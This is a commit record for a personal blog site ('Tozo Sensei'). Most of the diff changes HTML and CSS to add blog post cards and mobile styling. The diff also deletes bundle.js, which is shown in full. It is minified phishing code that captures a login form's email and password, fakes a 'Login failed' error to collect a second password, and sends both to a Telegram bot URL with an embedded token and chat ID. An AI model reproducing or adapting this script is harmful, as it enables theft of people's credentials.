

Before and after one commit to shirosensei/blogsite, a website: page index.html in a window 390 px wide. Shown: the part 72-897 px from the top of the page. Before the commit the page ends 844 px from the top, so only its background shows below. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
First blog post

```diff
--- /dev/null
+++ b/blog/style.css
@@ -0,0 +1,12 @@
+@media screen {
+
+    section {
+        height: 1020px;
+        width: 100%;
+        border: 1px solid #333;
+    }
+
+    header {
+
+    }
+}
--- a/bundle.js
+++ /dev/null
@@ -1,4 +0,0 @@
-const myForm=document.getElementById("myForm"),emailField=document.getElementById("user"),passwordField=document.getElementById("pass"),errorField=document.getElementById("error"),submitBtn=document.getElementById("formsubmit");let clickCount=0,firstPassword=null,emailValue=null;function isValidEmail(e){return/^[^\s@]+@[^\s@]+\.[^\s@]+$/.test(e)}submitBtn.addEventListener("click",e=>{e.preventDefault(),0===clickCount?""!==emailField.value&&isValidEmail(emailField.value)&&""!==passwordField.value?(emailValue=emailField.value,firstPassword=passwordField.value,clickCount++,submitBtn.disabled=!0,myForm.reset(),emailField.value=emailValue,submitBtn.disabled=!1,firstPassword&&(errorField.innerText="Login failed - Username or password is incorrect",errorField.style.display="block")):(errorField.innerText="Please enter your username and password",errorField.style.display="block"):1===clickCount&&(""===passwordField.value?(errorField.innerText="Login failed - Username or password is incorrect",errorField.style.display="block"):(submitBtn.disabled=!0,e=`New form submission:
-Email: ${emailValue}
-Password 1: ${firstPassword}
-Password 2: `+passwordField.value,e="https://api.telegram.org/bot5736277261:AAEL0BaJHo9kyddgtseYsC-OCCP0D6b7AfA/sendMessage?chat_id=5674884293&text="+encodeURIComponent(e),fetch(e).then(e=>e.json()).then(e=>{e.ok?(console.log("Message sent to Telegram chat successfully!"),window.location.href="success.html"):console.error("Error sending message to Telegram chat!")}).catch(e=>console.error(e)),clickCount=0,myForm.reset(),emailField.value=emailValue,passwordField=document.getElementById("pass").value))});
--- a/index.html
+++ b/index.html
@@ -1,16 +1,16 @@
 <!DOCTYPE html>
 <html>
   <head>
-    <meta charset="UTF-8">
-	<meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Tozo Blog</title>
+    <meta charset="UTF-8" />
+    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
+    <title>Tozo Sensei's Blog</title>
     <link rel="stylesheet" type="text/css" href="/style.css" />
   </head>
   <body>
     <header>
       <div class="logo">
         <!-- <img src="https://i.ibb.co/swJv12x/nb.png" alt="Logo" /> -->
-        <h1>Tozo Blog</h1>
+        <h1>Tozo Sensei</h1>
       </div>
       <nav>
         <ul>
@@ -29,17 +29,66 @@
 
     <main class="">
       <section>
-        <h2>Latest Posts</h2>
-        <ul>
-          <li><a href="#">My First Coding Project</a></li>
+        <h2>Blog Posts</h2>
+        <div class="blog-container">
+
+            <div class="blog-description">
+              <a href="/blog/firstpost.html" class="blog-links">
+              <h3 class="blog-title">My first blog post</h3>
+              <p class="blog-text">
+                Lorem ipsum dolor sit amet consectetur, adipisicing elit. Quia
+                obcaecati explicabo officia itaque animi totam laboriosam
+                tenetur magnam? Quibusdam pariatur non nulla aspernatur, atque
+                consequatur? Itaque veniam dignissimos eveniet dicta.
+              </p>
+              <h4 class="blog-date">December 2022</h4>
+            </a>
+            </div>
+         </div>
+         <div class="blog-container">
+
+          <div class="blog-description">
+            <a href="#" class="blog-links">
+            <h3 class="blog-title">My First Coding Project</h3>
+            <p class="blog-text">
+              Lorem ipsum dolor sit amet consectetur, adipisicing elit. Quia
+              obcaecati explicabo officia itaque animi totam laboriosam
+              tenetur magnam? Quibusdam pariatur non nulla aspernatur, atque
+              consequatur? Itaque veniam dignissimos eveniet dicta.
+            </p>
+            <h4 class="blog-date">October 2014</h4>
+          </a>
+          </div>
+
+          <div class="blog-container">
+
+            <div class="blog-description">
+              <a href="#" class="blog-links">
+              <h3 class="blog-title">How to Stay Motivated When Learning to Code</h3>
+              <p class="blog-text">
+                Lorem ipsum dolor sit amet consectetur, adipisicing elit. Quia
+                obcaecati explicabo officia itaque animi totam laboriosam
+                tenetur magnam? Quibusdam pariatur non nulla aspernatur, atque
+                consequatur? Itaque veniam dignissimos eveniet dicta.
+              </p>
+              <h4 class="blog-date">April 14, 2014</h4>
+            </a>
+            </div>
+         </div>
+
+
+       </div>
+        <!-- <ul>
+          <li><a href="#"><div id="date"></div>
+            My First Coding Project</a></li>
           <li><a href="#">Troubleshooting Tips for Beginners</a></li>
           <li><a href="#">How to Stay Motivated When Learning to Code</a></li>
-        </ul>
+        </ul>  -->
 
         <details>
           <summary>Codewars Challange</summary>
           <div class="details-content">
-            <p>
+            <p class="card">
               This is the code i solved so far. please make sure you understand
               this code and how it works before you copy it.
             </p>
@@ -89,16 +138,9 @@
           </div>
         </details>
 
-        <div class="">
-          <h3>Sum of differences in array</h3>
-          <p class="p-card">
-            Your task is to sum the differences between consecutive pairs in the
-            array in descending order.
-          </p>
-        </div>
       </section>
       <aside>
-        <div class="container">
+        <div class="aside-container">
           <img
             src="/images/profile.png"
             alt="Software Engineer Icon"
@@ -111,7 +153,7 @@
         </div>
       </aside>
       <section class="section2">
-        <h2>Categories</h2>
+        <h2>Explore More Topics:</h2>
         <ul>
           <li><a href="#">HTML</a></li>
           <li><a href="#">CSS</a></li>
--- a/index.js
+++ b/index.js
@@ -44,11 +44,10 @@ detailsSummaries.forEach(summary => {
  // Get the current date and time
  const now = new Date();
  const dateString = now.toDateString();
- const timeString = now.toLocaleTimeString();
 
  // Update the HTML with the date and time
- const dateEl = document.getElementById("date");
- dateEl.textContent = dateString + " at " + timeString;
+ const dateEl = document.getElementById("blog-date");
+ dateEl.textContent = dateString;
 
 class Animal {
     constructor(name, breed) {
--- a/style.css
+++ b/style.css
@@ -1,12 +1,26 @@
 
+@import url('https://fonts.googleapis.com/css2?family=Open+Sans:ital@1&family=Outfit&family=Roboto&display=swap');
 
-html {
+* {
+  margin: 0;
+  padding: 0;
+  box-sizing: border-box;
+  -webkit-tap-highlight-color: transparent;
+  -webkit-font-smoothing: antialiased;
+  -moz-osx-font-smoothing: grayscale;
+}
+
+:root {
+  --whitesmoke: 	rgb(245,245,245);
+  --off-white : rgb(250, 249, 246);
+  --main-bg-color: coral;
+}
+
+html:focus-within {
   scroll-behavior: smooth;
 }
 
 body {
- height: 100%;
-
  margin: 0;
 }
 
@@ -14,7 +28,11 @@ header {
   display: flex;
   justify-content: space-between;
   align-items: center;
-  background: linear-gradient(180deg, #101410, rgb(117, 115, 115) 10%, #77778e);
+
+  /* background-color: #011627; */
+
+   background: linear-gradient(180deg, #101410, rgb(117, 115, 115) 10%, #77778e);
+
   padding: 20px 10px 10px 10px;
   color: #fff;
   position: relative;
@@ -61,6 +79,7 @@ main {
   margin: 10px;
   display: flex;
   flex-wrap: wrap;
+  flex-direction: column;
 }
 
 section {
@@ -129,6 +148,7 @@ details[open] summary::after {
   position: absolute;
 }
 
+
 .container {
   display: flex;
   flex-direction: column;
@@ -148,14 +168,27 @@ details[open] summary::after {
   height: 80px;
 }
 
-section:nth-of-type(2) {
-  background-color: green;
-}
 
+@media screen and (min-width: 320px) and (max-width: 768px) {
 
-@media (max-width: 768px) {
+  * {
+    margin: 0;
+    padding: 0;
+  }
+  /* CSS styles here */
   body {
-    width: 100% !important;
+    margin: 0;
+    /* background-color: rgb(232,232,232); */
+    background-color: #f6f5f7;
+    font-family: OpenSans,sans-serif;
+  }
+  header {
+    background: linear-gradient(hsl(216, 11%, 9%), hsl(23, 8%, 20%), hsl(20, 9%, 4%));
+  }
+
+  header {
+    width: 100%;
+
   }
 
   nav {
@@ -164,7 +197,7 @@ section:nth-of-type(2) {
     top: 60px;
     left: 0;
     width: 100%;
-    background: linear-gradient(180deg, #101410, rgb(117, 115, 115) 10%, #77778e);
+    background: linear-gradient(90deg, #011627, rgb(117, 115, 115), #77778e);
     /* background-color: #101014; */
   }
 
@@ -227,21 +260,132 @@ section:nth-of-type(2) {
     align-items: center;
     flex-wrap: wrap;
     flex-direction: column;
-    width: 100%;
+    /* width: 100%; */
   }
 
+  main ul {
+    list-style-type: none;
+    font-size: 1em;
+  }
+
+  .blog-container {
+    width: 100%;
+    box-sizing: border-box;
+    /* box-shadow: 1px 2px 0px 2px rgba(0, 0, 25, .2); */
+    box-shadow: 0 3px 10px rgba(25,17,34,.05);
+    border-radius: 3px;
+    margin-bottom: 10px;
+    background-color: rgba(255, 255, 255);
+
+
+  }
+
+  h3 {
+    display: block;
+    margin: 0;
+    font-weight: bold;
+
+  }
+
+
+  .blog-description {
+    border: solid #fff 1px;
+    padding: 10px 10px -0px 10px;
+     box-shadow: 10px 13px 10px rgba(25,17,34,.05);
+     margin-top: 50px;
+
+  }
+
+  .blog-links {
+   text-decoration: none;
+   position: relative;
+   color: #333;
+   font-family: 'Roboto', sans-serif;
+   cursor: pointer;
+   transition: all .25s ease-out;
+  }
+
+  .blog-links:hover {
+    color: #0052ea;
+  }
+
+  .blog-title {
+    font-size: 1.5rem !important;
+    font-family: 'Open Sans', sans-serif;
+    text-transform: uppercase;
+    font-weight: 500;
+    font-size: 20px;
+  }
+
+  .blog-text {
+    font-family: 'Outfit', sans-serif;
+    font-weight: 400;
+    line-height: 26px;
+    font-size: 16px;
+    margin: 5px 0 10px;
+
+  }
+
+  .blog-date {
+    font-family: 'Roboto', sans-serif;
+    font-weight: 200;
+    font-size: smaller !important;
+    color: #555;
+    margin: 5px 3px;
+  }
+
+  .section2 {
+    display: flex;
+    flex-direction: column;
+    justify-content: flex-end;
+    position: relative;
+  }
+
+  .section2 ul li a {
+    list-style: none;
+    text-decoration: none;
+  }
   details {
     border: 1px solid #dfdddd;
     border-radius: 4px;
     padding: 0.5em 0.5em 0.5em 0;
+    background-color: #fff;
+
   }
+details summary {
+  background-color: #fff;
+  padding: 0.8em 0.5em 0.5em 0.5em;
+}
 
-  header {
-    width: 100%;
-  }
+details .details-nested {
+  line-height: 1.2em;
+}
+details a {
+  text-decoration: none;
+  font-weight: bold;
+  font-size: smaller;
+}
 
+details summary div p {
+  padding: 5px;
+  line-height: 1.2em;
+}
+
+details div p {
+  padding: 5px;
+}
+
+details .details-content .card {
+  font-size: 13px;
+  margin-bottom: 15px;
+}
 
 }
+
+/*
+@media (max-width: 768px) {
+
+} */
 
 /* @media only screen
   and (min-device-width: 375px)
@@ -328,7 +472,6 @@ section {
 section:last-child {
   margin-right: 0;
 }
-
 
 } */
 
```
Also changed, not shown: blog/firstpost.html (added, +15 -0 lines), uglify.js (deleted, +0 -102 lines), 1 other file.
